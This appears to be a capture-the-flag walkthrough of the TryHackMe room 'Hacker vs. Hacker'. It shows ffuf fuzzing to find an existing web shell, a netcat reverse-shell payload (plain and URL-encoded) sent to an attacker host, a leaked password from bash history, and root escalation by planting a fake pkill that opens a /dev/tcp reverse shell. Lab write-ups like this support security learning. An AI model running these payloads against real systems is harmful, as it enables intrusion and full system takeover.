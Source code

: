 ```yaml
---

title: Walkthrough - Hacker vs. Hacker
published: true
---
```


Tags: Web Foothold, Enumeration.
Description: Someone has compromised this server already! Can you get in and evade their countermeasures?
Difficulty: Easy
URL: [https://tryhackme.com/room/hackervshacker](https://tryhackme.com/room/hackervshacker)

* * *

## Notes

> The server of this recruitment company appears to have been hacked, and the hacker has defeated all attempts by the admins to fix the machine. They can't shut it down (they'd lose SEO!) so maybe you can help?

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

Port 80 has a website and the upload form has been hacked.

Caputuring in burposuite we see the hacker left behind some code for us

```
<!-- seriously, dumb stuff:
$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
-->
```

So we cant upload a shell, we cant access cvs. So maybe we can find the shell the hacker left over... We can use `fuff` which is a super easy to use fuzzer.

- `ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.97/cvs/FUZZ.pdf.php`

Here we find shell. Lets check that out on the site. All we have is BOOM. We can use fuzz some more to extrapolate some more information about this php.

- `ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.97/cvs/shell.pdf.php?FUZZ=id -fs 18` this command will exclude all results with 18 characters. And here we find `cmd` is the variable we are looking for.

Capture the request in burpsuite and send it to the repeater.

```
GET /cvs/shell.pdf.php?cmd=id HTTP/1.1
Host: 10.10.10.97
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Since this is executing commands and sending us our ID we can edit this in order to send us a reverse shell. Setup netcat listener and lets try.

- use `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6666 >/tmp/f` as the variables parameter and encode it as url to recieve reverse shell

```
GET /cvs/shell.pdf.php?cmd=%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%32%2e%31%32%37%2e%32%32%35%20%36%36%36%36%20%3e%2f%74%6d%70%2f%66 HTTP/1.1
Host: 10.10.10.97
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

* * * 

## user.txt?

![0xskar](/assets/hackervshacker.png)

* * * 

## root.txt?

everytime we try to upgrade the shell we get noped out of it. kind of hilarious. hmm

```
cat /home/lachlan/.bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

We can login via ssh using these creds. But we keep getting kicked. 

- `cat /etc/cron.d/persistence`

root is running crontab that is executing pkill, we can use this to send us another revshell as root. quickly logging into ssh and executing the following command gives us root shell.

`echo "bash -c 'bash -i >& /dev/tcp/10.2.127.225/6667 0>&1'" > bin/pkill ; chmod  +x bin/pkill`

* * * 

